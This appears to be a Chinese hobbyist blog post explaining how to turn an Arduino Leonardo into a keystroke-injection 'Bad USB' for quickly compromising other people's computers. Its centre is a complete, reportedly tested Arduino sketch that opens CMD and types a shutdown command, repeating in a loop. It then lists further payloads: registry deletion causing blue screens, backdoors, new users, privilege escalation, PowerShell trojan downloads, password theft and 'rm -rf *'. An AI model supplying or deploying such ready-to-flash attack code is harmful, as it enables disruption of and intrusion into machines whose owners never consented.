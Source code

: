 ```yaml
---
title: Arduino Leonardo 打造 Bad USB
date: 2016-11-27 02:48:23
tags: hack 
categories: hack
permalink: badusb
---
```


嘿嘿嘿，又是一篇猥琐小文。

<!--more -->

# 简介

什么是Bad USB？

![](/content/images/badusb/0.jpg)

BadUSB最可怕的一点是恶意代码存在于U盘的固件中，由于PC上的杀毒软件无法访问到U盘存放固件的区域，因此也就意味着杀毒软件和U盘格式化都无法应对BadUSB进行攻击。

简单来说，就是让USB设备伪装成但却充当键盘，被插入的电脑猝不及防会被迅速输入一定的“指令”，这个指令会让该电脑迅速成为肉鸡。

# 目标

打造一个廉价Bad USB，实现对 终端机、别人的电脑快速合法化入侵。

![](/content/images/badusb/1.jpg)


# 原料
1. Arduino Leonardo
2. 普通安卓USB线

# 举个🌰

比如我们要实现一个插入优盘就让对方电脑关机的功能：

用Arduino开发者工具，选择

![](/content/images/badusb/2.jpg)

Arduino Leonardo

然后把程序烧录进去

```C
#include <Keyboard.h>

void setup() {//初始化
   Keyboard.begin();//开始键盘通讯 
  delay(5000);//延时
  Keyboard.press(KEY_LEFT_GUI);//win键 
  delay(500); 
  Keyboard.press('r');//r键 
  delay(500); 
  Keyboard.release(KEY_LEFT_GUI);
  Keyboard.release('r');
  Keyboard.press(KEY_CAPS_LOCK);//利用开大写输小写绕过输入法
  Keyboard.release(KEY_CAPS_LOCK);
  delay(500); 
  Keyboard.println("CMD");
  delay(500); 
  Keyboard.press(KEY_RETURN);
  Keyboard.release(KEY_RETURN);
  delay(3000); 
  Keyboard.println("shutdown -s -t 10");
  Keyboard.press(KEY_RETURN);
  Keyboard.release(KEY_RETURN);
  Keyboard.press(KEY_CAPS_LOCK);
  Keyboard.release(KEY_CAPS_LOCK);
  Keyboard.end();//结束键盘通讯 
}
void loop()//循环
{
   Keyboard.begin();//开始键盘通讯 
  delay(5000);//延时
  Keyboard.press(KEY_LEFT_GUI);//win键 
  delay(500); 
  Keyboard.press('r');//r键 
  delay(500); 
  Keyboard.release(KEY_LEFT_GUI);
  Keyboard.release('r');
  Keyboard.press(KEY_CAPS_LOCK);//利用开大写输小写绕过输入法
  Keyboard.release(KEY_CAPS_LOCK);
  delay(500); 
  Keyboard.println("CMD");
  delay(500); 
  Keyboard.press(KEY_RETURN);
  Keyboard.release(KEY_RETURN);
  delay(3000); 
  Keyboard.println("shutdown -s -t 10");
  Keyboard.press(KEY_RETURN);
  Keyboard.release(KEY_RETURN);
  Keyboard.press(KEY_CAPS_LOCK);
  Keyboard.release(KEY_CAPS_LOCK);
  Keyboard.end();//结束键盘通讯 
}
```

已经在多台Windows电脑上试验成功。


# 效果
![](/content/images/badusb/preview.gif)

# 进阶

当然，你可以实现很多功能

- 删除系统关键注册表使之蓝屏
- 留后门
- 新建用户
- 用户提权
- 调用Powershell下载木马
- 调用Powershell下载木马及从内存中提取出当前用户的Windows密码
- rm -rf *

此外，发现了一个专门收集Badusb的Github用户，非常有学习价值。

https://github.com/Xyntax/BadUSB-code

# 参考
http://www.extremetech.com/extreme/191467-badusb-returns-hackers-publish-code-that-could-infect-millions-of-usb-devices
http://www.freebuf.com/sectool/107242.html
http://www.freebuf.com/articles/terminal/53886.html

